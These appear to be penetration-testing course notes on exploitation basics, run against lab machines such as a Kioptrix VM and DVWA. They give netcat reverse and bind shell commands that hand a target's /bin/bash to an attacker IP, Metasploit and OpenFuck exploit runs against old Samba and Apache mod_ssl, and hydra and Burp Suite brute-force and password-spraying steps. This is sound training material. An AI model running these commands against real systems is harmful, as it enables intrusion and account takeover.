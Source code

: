 # Exploitation Basics

## Reverse shell vs Bind shell

### netcat

➡️ [netcat](https://netcat.sourceforge.net/)

**Reverse shell** - the victim/target connects back to the attacker

- Attack machine - **listening** on a port
- Target machine - connect to the attacker machine listening port

![Netcat Reverse Shell - hackingtutorials.org](.gitbook/assets/Netcat-reverse-shell.jpg)

```bash
# Attacker
nc -nvlp 4444

# Target
nc 192.168.31.131 4444 -e /bin/bash
```

![Reverse shell](.gitbook/assets/2024-07-11_20-40-27_596.png)

**Bind shell** - the attacker opens a port on the target (via exploitation) and connects to it

- Attack machine - exploits target and opens port listening on target and connects to it
- Target machine - listens for the attacker connection

![Netcat Bind Shell - hackingtutorials.org](.gitbook/assets/Netcat-bind-shell.jpg)

- Specially used on external assessment

```bash
# Target
nc -nvlp 4444 -e /bin/bash

# Attacker
nc 192.168.31.131 4444
```

![Bind shell](.gitbook/assets/2024-07-11_20-41-43_597.png)

---

## Staged vs Non-Staged payloads

**Non-Staged payload** - sends exploit shellcode all at once, larger in size and won't always work

- Metasploit e.g. `payload/windows/meterpreter_reverse_tcp`



**Staged payload** - sends payload in stages, less stable

- Metasploit e.g. `payload/windows/meterpreter/reverse_tcp`

---

## Metasploit (SMB attack)

```bash
searchsploit samba 2.2
```

![searchsploit samba 2.2](.gitbook/assets/2024-07-13_09-03-53_601.png)

```bash
# Run Metasploit
msfconsole

search trans2open
use exploit/linux/samba/trans2open
options

set RHOSTS 192.168.31.130
show targets

run
```

- This does not work, since it is using the `linux/x86/meterpreter/reverse_tcp` staged payload.
- Try with another payload

```bash
set payload linux/x86/shell_reverse_tcp
run
```

![root on Kioptrix VM](.gitbook/assets/2024-07-13_09-10-10_602.png)

- Gained reverse shell via Metasploit

---

## Manual exploitation

Use [OpenLuck](https://github.com/heltonWernik/OpenLuck) to exploit [CVE-2002-0082](https://nvd.nist.gov/vuln/detail/CVE-2002-0082) - [Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

- Follow usage instruction to compile the exploit and run it against the target machine

```bash
git clone https://github.com/heltonWernik/OpenFuck.git
sudo apt-get install libssl-dev
gcc -o OpenFuck OpenFuck.c -lcrypto

./OpenFuck

# check an offset for Apache 1.3.20 
# ./OpenFuck target box [port] [-c N]
```

```bash
./OpenFuck 0x6b 192.168.31.130 -c 40
```

![](.gitbook/assets/2024-07-13_09-24-35_603.png)

---

## Brute force attacks

- Brute-force attack `SSH` with weak/default credentials

### hydra

➡️ [hydra](https://github.com/vanhauser-thc/thc-hydra)

```bash
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://192.168.31.130 -t 4 -V
```

- Use the same with Metasploit

```bash
msfconsole

search ssh_login
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.31.130
set USERNAME root
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
PASS_FILE => /usr/share/wordlists/metasploit/unix_passwords.txt
set THREADS 10
set VERBOSE true
run
```

---

## Credential stuffing and Password spraying

[**Credential stuffing**](https://owasp.org/www-community/attacks/Credential_stuffing) - injecting breached account credentials (leaks, etc) in hopes of account takeover

[**Password spraying**](https://owasp.org/www-community/attacks/Password_Spraying_Attack) - brute forcing logins based on a list of usernames with default passwords

```bash
ls -lah /usr/share/seclists/Passwords/Leaked-Databases/
```

- Setup FoxyProxy in the browser and start BurpSuite.
- Use local vulnerable webapp like [dvwa](https://nvd.nist.gov/vuln/detail/CVE-2002-0082)

```bash
sudo apt install dvwa

dvwa-start
```

- Open the login page - [http://127.0.0.1:42001/vulnerabilities/brute/](http://127.0.0.1:42001/vulnerabilities/brute/)

**BurpSuite**

- Turn intercept ON and send the login request to intruder
- Highlight the username and password values, and add them to the payload positions
- Attack type - `Pitchfork`

![](.gitbook/assets/2024-07-13_09-53-02_604.png)

- **Payloads**
  - for each payload set, paste the usernames list and password
  - Start the attack
    - check the response for Status change and Length

![](.gitbook/assets/2024-07-13_10-10-23_605.png)

![](.gitbook/assets/2024-07-13_10-10-38_606.png)

![](.gitbook/assets/2024-07-13_10-20-20_607.png)

---

